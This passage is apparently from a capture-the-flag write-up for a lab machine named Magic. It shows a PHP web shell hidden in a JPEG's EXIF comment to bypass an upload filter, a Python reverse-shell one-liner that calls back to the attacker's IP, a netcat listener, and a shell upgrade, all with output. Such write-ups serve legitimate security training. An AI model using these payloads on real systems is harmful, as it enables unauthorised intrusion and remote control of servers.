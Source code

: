![]({{site.baseurl}}/images/pages/magic/6.png)

We know the location where files get saved. Trying to upload a PHP Reverse Shell we get the following error.

![]({{site.baseurl}}/images/pages/magic/7.png)



It seems there is some kind of filter. We can bypass this by embedding PHP code in an image using tool named __"ExifTool"__.

```css
strawhack@linux:~/Desktop$exiftool -Comment='<?php echo "<pre>"; system($_GET["cmd"]); _halt_compiler() ?>' kenshin.jpeg
1 image files updated

strawhack@linux:~/Desktop$ls
kenshin.jpeg  kenshin.jpeg_original

strawhack@linux:~/Desktop$ mv kenshin.jpeg kenshin.php.jpeg
```

Lets upload the file and try access it.



![]({{site.baseurl}}/images/pages/magic/8.png)

We have a code execution. Lets try to ping our system, we get a response.

![]({{site.baseurl}}/images/pages/magic/9.png)

Its time for Reverse Shell. Taking the code from [PenTest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), 

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.119",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

We get a reverse shell

```ruby
strawhack@linux:~/Desktop$ sudo nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.10.185 43600
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/Magic/images/uploads$
```

Going to the user __"theseus"__, we see the user.txt can be accessed by __"theseus"__

```ruby
www-data@ubuntu:/home/theseus$ ls -la
total 84
drwxr-xr-x 15 theseus theseus 4096 Apr 16 02:58 .
drwxr-xr-x  3 root    root    4096 Oct 15  2019 ..
-rw-------  1 theseus theseus 7334 Apr 15 23:50 .ICEauthority
lrwxrwxrwx  1 theseus theseus    9 Oct 21  2019 .bash_history -> /dev/null
-rw-r--r--  1 theseus theseus  220 Oct 15  2019 .bash_logout
-rw-r--r--  1 theseus theseus   15 Oct 21  2019 .bash_profile
-rw-r--r--  1 theseus theseus 3771 Oct 15  2019 .bashrc
drwxrwxr-x 13 theseus theseus 4096 Mar 13 05:57 .cache
drwx------ 13 theseus theseus 4096 Oct 22  2019 .config
drwx------  3 theseus theseus 4096 Oct 21  2019 .gnupg
drwx------  3 theseus theseus 4096 Oct 21  2019 .local
drwx------  2 theseus theseus 4096 Aug 21 22:10 .ssh
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Desktop
```